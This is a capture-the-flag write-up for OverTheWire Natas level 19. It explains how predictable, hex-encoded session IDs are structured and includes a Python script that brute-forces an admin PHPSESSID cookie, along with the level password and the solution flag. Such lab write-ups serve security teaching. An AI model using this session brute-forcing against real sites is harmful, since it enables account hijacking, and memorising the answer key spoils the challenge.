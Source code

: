 # Natas Level 19

Access data:

    username: natas19
    password: 8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s

We are told that this is a variation of the previous challenge, but it does not use sequential session IDs. 

Playing around with different username + passwords via burp you can observe that the session ID grows with longer usernames and password does not influence the resulting value. This is not random, maybe we can understand the pattern. Let's try it a bit more systematically with these values:

    username, password = session id

    a,a = 3237382d61
    a,b = 3136332d61
    b,a = 3239372d62
    b,b = 3632392d62

The last two digits change depending on the username. They are also the hex values for the character if you consult an [ASCII Table](https://www.rapidtables.com/code/text/ascii-table.html).

If you know resend the same credentials (a, a) multiple times, you'll observe that the session ID always ends with _2d61_. A bit more playing around reveals a structure like this for the session id:

      *something_that_changes* + *static_2d* + *username_in_ascii*


This means we only need _*something_that_changes*_, the rest we can predict / extract. 

Spamming a bit more, it seems like _*something_that_changes*_ are just one, two or three numbers, each of them being between 30 and 40. This was good enough for me to try to brute-force it - with success! Here is the code.

```python
    import requests, itertools

    user = "natas19"
    password = "8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s"
    url = f"http://{user}.natas.labs.overthewire.org"

    def bruteforce_session_ids(session, possibilites):
        for number_tuple in possibilites:
            sess_id = "".join(str(number) for number in number_tuple) #Join integers to string
            sess_id += "2d" #static separator
            sess_id += "61646d696e" #Ascii representation of 'admin'

            print(f"Testing: {sess_id}")
            cookies = {"PHPSESSID" : sess_id}
            resp = session.post(url, cookies=cookies)

            if(not "regular user" in resp.text):
                print(resp.text)
                print(f"Admin cookie: {sess_id}")
                exit("Terminating after successful attack")
            
        return False    


    with requests.Session() as session:
        session.auth = (user, password)
        auth = session.post(url)

        possibleNumbers = [30, 31, 32, 33, 34, 35, 36, 37, 38, 39] 

        combinations_of_one = list(itertools.product(possibleNumbers, repeat=1))
        combinations_of_two = list(itertools.product(possibleNumbers, repeat=2))
        combinations_of_three = list(itertools.product(possibleNumbers, repeat=3))

        bruteforce_session_ids(session, combinations_of_one)
        bruteforce_session_ids(session, combinations_of_two)
        bruteforce_session_ids(session, combinations_of_three)

```

<details>
  <summary>Solution</summary>
  Flag: guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH
</details>



